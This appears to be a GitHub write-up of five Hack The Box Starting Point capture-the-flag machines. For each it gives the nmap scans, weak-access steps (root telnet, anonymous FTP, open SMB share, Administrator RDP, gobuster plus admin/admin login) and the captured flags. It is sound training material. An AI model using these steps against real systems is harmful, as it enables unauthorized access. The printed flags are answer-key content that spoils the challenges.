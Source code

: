 # HTB-Tier-0-CTF

## STARTING POINT Tier 0 Machines 

https://app.hackthebox.com/starting-point

# Meow

**Use nmap to scan for open ports : sudo nmap -sS 10.129.115.157** 

	23/tcp open  telnet

telnet to machine with username root

ls and cat flag.txt to get the flag

###### 🏴‍☠️ HTB{b40abdfe23665f766f9c61ecba8a4c19}

 
# Fawn 

**Use nmap to scan for open ports : sudo nmap -sS -sV 10.129.115.194**

	21/tcp open  ftp     vsftpd 3.0.3
	Service Info: OS: Unix

Login via FTP using anonymous user

GET and cat flag.txt for flag

 ###### 🏴‍☠️ HTB{035db21c881520061c53e0536e44f815} 
 

# Dancing 

**Use nmap to scan for open ports : sudo nmap -sS -sV 10.129.115.201**

	PORT    STATE SERVICE       VERSION
	135/tcp open  msrpc         Microsoft Windows RPC

	139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn

	445/tcp open  microsoft-ds?

	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

**Use smbclient too and found some workshare directory** 

Gain access to smbclient shell smbclient \\\\10.129.115.201\\WorkShares

explore the directories and get the flag.txt

###### 🏴‍☠️ HTB{5f61c10dffbc77a704d76016a22f1664} 

 
# Explosion 

**Use nmap to scan for open ports : sudo nmap -sS -sV 10.129.116.6** 

	PORT     STATE SERVICE       VERSION

	135/tcp  open  msrpc         Microsoft Windows RPC

	139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn

	445/tcp  open  microsoft-ds?

	3389/tcp open  ms-wbt-server Microsoft Terminal Services

	Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

**Use the xfreerdp to gain remote desktop access to the box : xfreerdp /v:10.129.116.6 /cert:ignore /u:Administrator** 

open flag.txt to get the flag

###### 🏴‍☠️ HTB{951fa96d7830c451b536be5a6be008a0} 


# Preignition

**Use nmap to scan for open ports: Sudo nmap -sS -sV 10.129.115.242**

	PORT   STATE SERVICE VERSION

	80/tcp open  http    nginx 1.14.2

**Use gobuster dir -u http://10.129.115.242 -w /usr/share/wordlists/dirb/common.txt** 

	/admin.php            (Status: 200) [Size: 999]

Head to 10.129.115.242/admin.php and a login account will appear 

**Use basic creditionals like Username : admin and password : admin** 

Found a flag!

###### 🏴‍☠️ HTB{6483bee07c1c1d57f14e5b0717503c73}





